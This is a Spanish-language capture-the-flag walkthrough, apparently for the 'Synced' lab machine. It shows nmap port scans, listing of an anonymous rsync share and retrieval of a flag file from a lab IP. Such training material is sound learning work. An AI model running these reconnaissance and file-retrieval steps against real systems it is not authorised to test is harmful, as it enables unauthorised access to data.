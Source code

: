 # Synced

🗹 Verificar si el host está activo:

```shell
ping -c 1 10.129.144.8

PING 10.129.144.8 (10.129.144.8) 56(84) bytes of data.
64 bytes from 10.129.144.8: icmp_seq=1 ttl=63 time=166 ms

--- 10.129.144.8 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 166.092/166.092/166.092/0.000 ms
```

> Sistema operativo:  **Linux**

🗹 Identificar puertos abiertos y qué servicios están corriendo:

```shell
sudo nmap -p- -sS --open --min-rate 5000 -n -Pn -vv 10.129.144.8 -oG openPorts

PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack ttl 63
```

🗹 Ejecutar scripts para recopilar información adicional:

```shell
sudo nmap -p 873 -sCV 10.129.144.8 -oN targeted

PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
```

| Puerto | Servicio | Versión |
| ------ | -------- | ------- |
| 873    | rsync    | 31      |

¿Qué es rsync?  
[RFC](https://www.rfc-editor.org/rfc/rfc5781.html)  
[https://rsync.samba.org/](https://rsync.samba.org/)

🗹 Conectarse al servidor mediante **rsync**:

```shell
rsync 10.129.144.8::

public         	Anonymous Share
```

🗹 Acceder a los diferentes recursos hasta obtener la flag:

```shell
rsync 10.129.144.8::public

drwxr-xr-x          4,096 2022/10/24 19:02:23 .
-rw-r--r--             33 2022/10/24 18:32:03 flag.txt
```
## Flag

La flag se encuentra en el directorio `public`, con el punto se indica que se va a guardar una copia en el directorio actual de trabajo:

```shell
rsync 10.129.144.8::public/flag.txt .

cat flag.txt
```
